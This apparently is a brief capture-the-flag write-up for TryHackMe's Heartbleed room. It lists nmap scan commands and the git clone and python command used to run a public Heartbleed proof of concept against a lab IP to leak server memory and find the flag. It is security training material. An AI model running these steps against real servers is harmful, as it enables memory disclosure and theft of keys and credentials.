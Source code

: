 # HeartBleed

**Room Link:** [https://tryhackme.com/room/heartbleed](https://tryhackme.com/room/heartbleed)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (24) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/443 - HTTPS

We can see the site is vulnerable to heartbleed

**Kali**

```
nmap -p 443 --script ssl-heartbleed $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I had to run the exploit a couple times but eventually I found some interesting info. Most importantly the flag.

**Kali**

```
git clone https://github.com/mpgn/heartbleed-PoC.git
cd heartbleed-PoC/
python2.7 heartbleed-exploit.py 34.240.174.225
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>











